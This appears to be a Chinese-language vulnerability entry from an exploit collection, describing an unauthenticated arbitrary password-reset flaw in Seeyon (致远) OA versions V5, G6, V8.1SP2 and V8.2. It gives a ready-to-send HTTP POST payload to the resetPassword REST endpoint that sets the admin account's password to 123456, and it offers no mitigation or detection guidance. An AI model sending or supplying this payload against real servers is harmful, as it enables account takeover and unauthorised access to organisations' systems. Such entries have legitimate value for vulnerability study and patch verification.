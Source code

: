 ### 漏洞描述：

致远OA存在任意用户密码重置漏洞，未经授权的远程攻击者在获取到用户名的情况下即可通过向特定接口发送HTTP请求来触发任意用户密码重置，最终可导致任意用户登录。

### 影响版本：

致远OA=V5  

致远OA=G6  

致远OA=V8.1SP2  

致远OA=V8.2  

### Payload：
```jsx
POST /seeyon/rest/phoneLogin/phoneCode/resetPassword HTTP/1.1
Host: Host
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.667.76 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/json
Content-Length: 43

{"loginName":"admin","password":"123456"}
```
